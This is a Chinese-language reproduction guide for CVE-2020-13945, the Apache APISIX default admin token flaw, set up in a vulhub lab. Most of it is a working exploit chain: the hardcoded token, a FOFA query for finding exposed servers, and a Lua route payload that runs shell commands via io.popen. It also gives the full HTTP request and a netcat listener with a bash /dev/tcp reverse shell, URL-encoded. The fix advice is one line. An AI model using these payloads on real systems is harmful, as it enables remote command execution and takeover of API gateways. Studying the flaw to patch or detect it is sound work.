







# Apache APISIX 默认密钥漏洞 

## 漏洞编号

```
CVE-2020-13945
```


## 漏洞描述

Apache APISIX是一个高性能API网关


在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token 

```
edd1c9f034335f136f87ad84b625c8f1
```

攻击者利用这个Token可以访问到管理员接口，进而通过script参数来插入任意LUA脚本并执行


### 影响范围

```
apisix 1.2
apisix 1.3
apisix 1.4
apisix 1.5
```


## FOFA语法

```
title="Apache APISIX" && status_code="200" && country="CN"
```


## 环境配置

vulhub

```
docker-compose up -d
docker-compose ps
```




访问192.168.1.15:9080




## 漏洞复现

访问192.168.1.15:9080/apisix/admin/routes



返回failed to check token则证明可利用


构造生成router的payload

```
{ 
"uri": "_PowerShell", 
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M", 
"upstream": { 
"type": "roundrobin", 
"nodes": { "example.com:80": 1
 } 
}
 }

```

功能是添加一个叫做_PowerShell的router


访问192.168.1.15:9080/apisix/admin/routes

抓包

将请求方式改为POST

添加请求头X-API-KEY

```
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
```

请求体为构造的payload

完整数据包

```
POST /apisix/admin/routes HTTP/1.1
Host: 192.168.1.15:9080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 370

{ 
"uri": "_PowerShell", 
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M", 
"upstream": { 
"type": "roundrobin", 
"nodes": { "example.com:80": 1
 } 
}
 }

```




201，router创建成功


访问192.168.1.15:9080/_PowerShell?cmd=id



id命令成功执行


尝试反弹shell

本地开启监听

```
nc -lvp 443
```




尝试反弹shell

```
bash -i >& /dev/tcp/192.168.1.21/443 0>&1
```

由于是get型传参，因此要将特殊字符进行URL编码

```
http://192.168.1.15:9080/_PowerShell?cmd=bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.1.21%2f443%200%3e%261
```



成功弹回shell


## 修复建议

更新到最新版本